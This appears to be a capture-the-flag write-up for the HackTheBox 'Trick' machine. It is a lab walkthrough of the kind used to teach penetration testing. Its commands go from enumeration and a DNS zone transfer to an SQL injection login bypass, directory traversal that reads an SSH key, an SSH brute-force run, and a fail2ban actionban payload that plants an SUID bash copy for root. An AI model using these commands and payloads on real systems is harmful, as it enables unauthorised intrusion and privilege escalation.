


# [Trick](https://app.hackthebox.com/machines/Trick)

```bash
nmap -p- --min-rate 10000 10.10.11.166 -Pn
```


After discovering open ports, let's do greater nmap scan.

```bash
nmap -A -sC -sV -p22,25,53,80 10.10.11.166 -Pn
```


Let's add this ip address into `/etc/hosts` file as `trick.htb`.


I just run `dig` to get information about domain.
```bash
dig axfr trick.htb @10.10.11.166
```


I get new domain name called 'preprod-payroll.trick.htb'. I also add this into `/etc/hosts` file.


While opening this web application, I confront with authentication `login.php` page.


I just try to do `SQLI` to bypass authentication via adding username **'dr4ks or 1=1;–'** and password as empty, I logged in.


After this, I saved this `POST` request as `.req` file, then use `sqlmap` to attack.

```bash
sqlmap -r login.req --level 5 --risk 3 --batch
```


But I cannot get enough information from here, that's why I try to make again subdomain fuzz via `preprod-{FUZZ}` by using `wfuzz` tool.


```bash
wfuzz -u http://10.10.11.166 -H "Host: preprod-FUZZ.trick.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hh 5480
```


I found `preprod-marketing.trick.htb`, let's add this into `/etc/hosts` file also.

While opening this application, I see that `index.php` file is used via `page` parameter.


I guess that there can `Directory Traversal` vulnerability, let's fuzz via `zap`.


After finding `Directory Traversal` vulnerability, I try to read private key (id_rsa) file.


Let's copy this file `id_rsa` and save on attacker's machine.

```bash
chmod 600 id_rsa
ssh -i id_rsa michael@10.10.11.166
```

user.txt


I just check privileges of this user via `sudo -l` command.


Let's search privilege escalation for `fail2ban` binary on exact this [blog](https://systemweakness.com/privilege-escalation-with-fail2ban-nopasswd-d3a6ee69db49).

```bash
ls -la iptables-multiport.conf
mv iptables-multiport.conf iptables-multiport.conf.bak
cp iptables-multiport.conf.bak iptables-multiport.conf
ls -la iptables-multiport.conf
chmod 666 iptables-multiport.conf
```


After this, I add my malicious payload into `iptables-multiport.conf` file as below which is copied `bash` binary to execute via `SUID` permission.
```bash
actionban= cp /bin/bash /tmp/dr4ks; chmod 4777 /tmp/dr4ks
```



After this I need to do restart operation via `sudo` privileges.
```bash
sudo /etc/init.d/fail2ban restart
```


To execute this , we need to do 5 failed login attempts. For automation, I use `crackmapexec` binary.

```bash
crackmapexec ssh trick.htb -u oxdf -p /usr/share/wordlists/rockyou.txt
```


Now, I can see my copied `bash` shell named as `dr4ks`, let's execute this via `-p` option.


root.txt



